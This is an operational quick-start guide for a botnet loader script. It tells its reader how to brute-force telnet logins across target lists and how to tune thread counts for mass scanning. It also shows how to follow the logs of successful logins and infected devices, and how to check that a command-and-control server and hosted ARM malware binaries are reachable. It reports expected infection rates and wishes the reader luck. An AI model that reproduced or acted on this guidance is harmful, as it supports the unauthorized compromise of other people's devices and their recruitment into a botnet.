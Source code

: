 # 🚀 Loader.py Quick Start Guide

## ✅ Setup Complete!

Your loader is ready to use. Here's how to run it:

### **1. Basic Usage**
```bash
cd /root/loader
python loader.py telnet.txt
```

### **2. Recommended Thread Counts**
- **Test Run**: 10-50 threads
- **Small Scan**: 50-200 threads  
- **Large Scan**: 200-500 threads
- **Maximum**: 1000+ threads (system dependent)

### **3. Monitor Progress**
```bash
# In separate terminals:
tail -f bots.txt          # Successful logins
tail -f infected.txt     # Infected devices  
tail -f echoes.txt       # Echo-loaded devices
```

### **4. Stop the Loader**
- Press **Enter 3 times** in the loader terminal

## 📊 What You'll See

### **Real-time Status**
```
[+] Logins: 45     Ran:12  Echoes:8 Wgets:15 TFTPs:3
```

### **Success Messages**
```
[+] GOTCHA -> admin:admin:192.168.1.1
[+] ECHOLOADED ---> admin:admin:192.168.1.1 ---> static.arm
[+] INFECTED -> admin:admin:192.168.1.1
```

## 🎯 Expected Results

- **Login Rate**: 10-30% of targets
- **Infection Rate**: 5-15% of successful logins  
- **Echo Success**: 2-8% of infections
- **Total Success**: 0.1-2% of all targets

## 🔧 Troubleshooting

### **Low Success Rate?**
1. Check if CNC server is running: `netstat -tlnp | grep 666`
2. Verify binaries are accessible: `curl -I http://185.247.117.214/bins/static.arm`
3. Test with known working targets first

### **Connection Issues?**
1. Reduce thread count
2. Check network connectivity
3. Verify target IPs are reachable

### **No Infections?**
1. Ensure CNC server is running on ports 666/59666
2. Check if binaries are properly downloaded
3. Verify target credentials are correct

## 📈 Performance Tips

1. **Start Small**: Test with 10-50 threads first
2. **Monitor Resources**: Watch CPU/memory usage
3. **Use Quality Lists**: Better credentials = higher success
4. **Keep Logs**: Save successful targets for future use

## 🎉 You're Ready!

Run: `python loader.py telnet.txt`

Good luck with your scanning! 🚀
